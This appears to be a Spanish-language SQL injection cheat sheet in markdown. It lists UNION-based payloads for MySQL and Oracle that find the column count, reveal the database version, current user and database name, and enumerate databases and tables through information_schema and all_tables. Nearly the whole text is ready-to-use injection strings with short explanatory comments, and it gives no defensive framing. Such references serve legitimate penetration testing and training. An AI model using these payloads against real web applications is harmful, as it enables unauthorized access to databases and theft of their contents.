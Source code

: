 ## Para saber el numero de columnas

```bash
# MYSQL

❯ union select 1,2,3 --+                              # Determinar el numero de columnas 
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
❯ ' union select NULL,NULL,NULL -- -                  # Aveces solo acepta NULL en lugar de numeros
❯ ' union select "test",NULL,NULL -- -                # Podemos colocar texto 
❯ ' union select database(),NULL,user() -- -          # Queremos que muestre el nombre de la base de datos actual en uso, tambien podemos ver al usuario quien corre la base de datos

❯ ' union select NULL,@@version-- -                   # Mirar la version de MySQL y Microsoft
```

```bash 
# ORACLE

❯ ' union select NULL,NULL from dual-- -              # Dual es una tabla existente en Oracle
❯ ' union select NULL,banner from v$version-- -       # Mirar la version en Oracle
```

## Para saber las bases de datos (DB) existentes

```bash 
# MYSQL

❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
❯ ' union select schema_name from information_schema.schemata limit 0,1-- -          # Nos muestra la primer base de datos existente, la cual podemos ir variando, limitando a 1 resultado, el que varia es el '0' a 1,2,3, etc...
❯ ' union select group_concat(schema_name) from information_schema.schemata-- -      # Nos muestra todas las bases de datos existentes en una linea, pero separadas por comas
```

## Para saber las tablas de la base de datos (DB) especifica

```bash
# MYSQL

❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -  # Nos muestra las tablas existentes
❯ ' union select group_concat(table_name) from information_schema.tables where table_schema='❮DB_Name❯'-- -  # Nos muestra las tablas existentes, pero separadas por comas
❯ ' union select table_name from information_schema.tables limit 0,1-- -   # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```

```bash 
# ORACLE

❯ ' union select table_name from all_tables-- -              # Nos muestra las tablas en Oracle
❯ ' union select owner from all_tables-- -                   # Nos muestra las tablas en Oracle de los propietarios
❯ ' union select table_name from all_tables where owner='❮owner_Name❯'-- -
```

